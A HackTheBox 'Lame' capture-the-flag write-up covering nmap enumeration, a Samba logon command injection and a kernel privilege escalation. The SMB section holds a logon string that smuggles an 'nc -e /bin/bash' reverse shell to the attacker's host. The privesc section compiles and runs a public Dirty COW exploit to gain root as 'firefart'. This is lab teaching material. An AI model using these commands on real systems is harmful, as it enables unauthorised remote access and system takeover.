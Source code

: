 ```yaml
---
author:
  name: "papadope"
date: 2021-01-28
linktitle: Lame
type:
- post
title: Lame
weight: 10
series:
- HackTheBox
---
```


![Room Image](/lame/room.png)

## Enumeration

From a really quick nmap we can realize that there are 4 open ports on the machine.

```

- 21/tcp
- 22/tcp
- 139/tcp
- 445/tcp

```

---

## Smb

After enumerating the smb port I found that there are shares that I can connect to.

```

🚀 sudo nmap -sU -sS --script smb-enum-shares.nse -p T:139 10.10.10.3

```

![smb Image](/lame/smb.png)

*Did you notice the Comment on /tmp share?*

---

## Useful comment

I had a problem running smbclient for some reason on my kali box. I was getting an error about "timeout" or "connection error" with absolutely no reason. After one hour investigating I found out that with a small edit on **/etc/samba/smb.conf**, finally worked.

- I added **client min protocol = NT1** under *global section* and problem solved.

---

## Getting a shell through smb

I used this command to get a reverse shell through samba: 

```

logon "./=`nohup nc -e /bin/bash **your_ip** 1234`"

```

![smb1 Image](/lame/smb1.png)

And I got the RVShell

![rv Image](/lame/rv.png)

---

## Privesc

After running some basic scripts you can quickly realize that you can privesc really quick & simple.

I will just leave this here 😉

![uname Image](/lame/uname.png)

You should check [this](https://www.exploit-db.com/exploits/40839) also.

---

## Exploit

Get the code from exploitdb. You can find it almost everywhere.
Compile the code on the machine with : 

```

gcc -pthread dc.c -o dc -lcrypt

```

Then run the compiled code with **./dc** (you can use your own name ofc) and enter a new password. Type your password & ssh into the machine with the **firefart** username.

**ssh firefart@10.10.10.3**

![exploit Image](/lame/exploit.png)

Thank you very much for reading.